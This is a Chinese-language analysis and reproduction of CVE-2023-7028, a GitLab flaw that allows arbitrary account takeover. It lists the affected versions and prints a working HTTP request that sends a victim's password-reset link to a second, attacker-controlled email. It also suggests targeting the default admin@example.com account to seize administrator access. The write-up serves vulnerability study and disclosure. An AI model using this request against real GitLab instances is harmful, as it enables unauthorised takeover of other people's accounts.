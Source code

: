 
GitLab 任意用户接管漏洞分析复现（CVE-2023-7028）

- - -

# GitLab 任意用户接管漏洞分析复现（CVE-2023-7028）

## 漏洞描述

2024 年 1 月 11 日，Gitlab 官方披露 CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

### 影响范围

> 16.1 <= Gitlab < 16.1.6
> 
> 16.2 <= Gitlab < 16.2.9
> 
> 16.3 <= Gitlab < 16.3.7
> 
> 16.4 <= Gitlab < 16.4.5
> 
> 16.5 <= Gitlab < 16.5.6
> 
> 16.6 <= Gitlab < 16.6.4
> 
> 16.7 <= Gitlab < 16.7.2

**这里需要注意的是，该漏洞于 2023 年 5 月 1 日在 16.1.0 中引入。所以低于 Gitlab 主线版本低于 16.1.0 环境不受该漏洞影响。**

### 漏洞利用前置条件

1、知道任意用户的邮箱

2、管理员正确配置了邮件服务

## 代码分析

根据官方的[commit 记录](https://gitlab.com/rluna-gitlab/gitlab-ce/-/commit/24d1060c0ae7d0ba432271da98f4fa20ab6fd671)来看，很容易就能发现问题——限制了邮件发送的数量。

[![](assets/1705540495-a923dfaea0737809eab6dcefd227874c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003924-a4085d56-b3c4-1.png)

## 漏洞复现

知道了漏洞的原理，接下来就开始漏洞复现。

首先访问`/users/password/new`进入到重置密码的页面，输入一个你知道的用户，然后使用 Burp 或者其他工具抓包。  
[![](assets/1705540495-f0a62c6f9907bcbf6ff2ee5beb705d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003935-aa853d2a-b3c4-1.png)

```bash
POST /users/password HTTP/1.1
Host: 1.1.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.1.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Referer: http://1.1.1.1:8090/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _gitlab_session=e8eb950940d6e5d7c3820e6c9e103d7b
DNT: 1
Sec-GPC: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Connection: close

authenticity_token=LnGtHYZiXkXxCGby0lK-Krqy79_lJlbjWsYjz7exHItcrWDAQQX4Yb1rV9J5y4V89Ik8U9UpTbro8owRoekdAA&user%5Bemail%5D%5B%5D=poc1%40163.com&user%5Bemail%5D%5B%5D=attack%40qq.com
```

第一个邮箱处填写获取到的邮箱，第二个邮箱写上你自己的邮箱，然后发包，过一会你的邮箱就会收到一封密码重置的邮件，然而这个邮件里面的重置连接是另一个用户的，效果如下：  
[![](assets/1705540495-42fa6f2021c366a84eb95bee0e4bde2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116004034-cde3d466-b3c4-1.png)  
可以看到把重置密码的邮件同时发给了两个邮箱，然而第二个邮箱是没有经过验证的攻击者的邮箱，攻击者收到邮件后直接点击重置密码，就可以接管对应的账户了。

## 后续利用

### Gitlab 版本判断

[https://github.com/righel/gitlab-version-nse/](https://github.com/righel/gitlab-version-nse/)

### 重置管理员账号

在 gitlab 安装时，管理员的默认账户为`admin@example.com`，所以可以通过直接重置默认邮箱，大概率能直接接管 gialab 管理员的账号。
